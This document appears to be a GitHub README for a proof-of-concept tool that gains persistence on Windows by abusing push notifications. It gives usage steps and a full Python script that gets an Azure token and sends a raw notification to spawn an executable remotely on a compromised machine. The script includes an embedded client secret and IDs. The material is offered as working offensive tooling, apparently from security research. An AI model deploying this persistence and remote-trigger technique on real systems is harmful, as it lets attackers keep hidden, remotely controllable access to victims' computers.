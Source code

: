 # Hermes the messenger
A PoC for achieving persistence via push notifications on Windows

For more technical details and background read our blogpost here: 



# Usage

Before anything else you need to [setup Azure](https://learn.microsoft.com/en-us/windows/apps/windows-app-sdk/notifications/push-notifications/push-quickstart#step-1-create-an-aad-app-registration). You then need to run the executable once in order to register itself for push notifications. You only need to pass the object id of your Azure app as an argument and if all goes well, it will print the channel Uri as received  by Microsoft. At that stage you may close the app.

```
hermes.exe <object_id>
```

If SDK 1.3 is not installed, the binary will attempt to deploy it along with the necessary extensions.

When you have the channel Uri, you can attempt to spawn your executable remotely from another machine by calling the notification API with your tenant's details, and watch the magic happen:

```python
import requests

secret = "4r8Q~XW6U_PmJYg6Eu_jV22DWlsnhyJBIrdpV"
app_id = "CA899E11-71CF-4DB3-962C-0EA65151C132" #not the object id but the Azure app id
tenant_id = "E83F2382-F012-475A-9A4C-30545F429FB7"
channel_uri = "https://wns2-am3p.notify.windows.com/?token=AwYAAAAiYI4p...."

def send_notification(secret, app_id, tenant_id, channel_uri, notification_data):
    # Acquire token
    url = f"https://login.microsoftonline.com/{tenant_id}/oauth2/v2.0/token"
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    data = {
        'grant_type': 'client_credentials',
        'client_id': app_id,
        'client_secret': secret,
        'scope': 'https://wns.windows.com/.default'
    }
    response = requests.post(url, headers=headers, data=data)
    response_json = response.json()
    token = response_json['access_token']

    # Send notification
    headers = {
        'Content-Type': 'application/octet-stream',
        'Authorization': f'Bearer {token}',
        'X-WNS-Type': 'wns/raw',
    }
    response = requests.post(channel_uri, headers=headers, data=notification_data)
    return response.status_code, response.text
	
	
send_notification(secret, app_id, tenant_id, channel_uri, "This is a notification")
```

# Demo
https://github.com/persistent-security/hermes-the-messenger/assets/134269747/a1e68f32-d940-40b6-99ea-c54b5345e367
